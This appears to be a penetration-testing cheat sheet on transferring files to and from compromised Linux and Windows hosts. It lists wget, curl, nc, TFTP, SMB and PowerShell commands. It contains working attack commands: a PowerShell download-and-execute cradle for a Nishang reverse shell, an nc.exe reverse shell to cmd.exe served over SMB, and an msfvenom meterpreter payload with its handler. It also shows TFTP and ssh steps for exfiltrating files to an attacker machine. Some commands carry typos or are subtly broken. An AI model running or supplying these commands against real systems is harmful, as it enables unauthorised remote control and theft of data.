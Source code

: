 ### Linux 

##### wget
wget [url/with/file] -p [local/path]

##### curl
curl -O [url/with/file]

##### nc
nc -lvp [port] > sending.file

##### tftp
- service atftpd start
```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
##### php

##### scp 

##### ssh
###### puts file to the attacking machine
ssh root@[ip] "cat > proof.txt < proof.txt"

###### Get files from the attacking machine
ssh root@[ip] "cat exploit" > "exploit

### Windows 

### HTTP Download file with with PowerShell
#### (new-object System.Net.WebClient).DownloadFile('http://[ip]/file.exe','D:\User\name\Desktop\file.exe')

### FTP 
#### In linux machine install python-pyftpdlib
```
- apt-get install python-pyftpdlib
- python -m pyftdlib -p 21
If you want to grant the anonymous user write access, add the -w flag as well.

On windows
- ftp [linux_ip]
- binary
- get file.exe
```
### TFTP
#### In linux machine strtign the server 
- service atftpd start
```
Metasploit, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT, which determines which directory to serve up, and OUTPUTPATH if you want to capture TFTP uploads from Windows as well.
```
- On windows
- tftp -i [linux_ip] GET file.exe

Exfiltrating files via TFTP is simple as well with the PUT action. The Metasploit server saves them in /tmp by default
- tftp -i linux-ip PUT file.txt

### SMB
- In linux machine, download smbserver.py from impacket project https://github.com/SecureAuthCorp/impacket
```
python smbserver.py ROPNOP /root/shells
```
- In windows machine
```
- dir \\[linux_ip]\ROPNOP
- copy \\[linux_ip]\ROPNOP\file.exe
```

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
  
#### Netcat
- smbserver.py  
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

- create directory (for example test)
cp nc.exe to test

- run smbserver
python smbserver.py test smb

- run local nc
nc -lnvp 443

-In the victim shell
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]

##### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
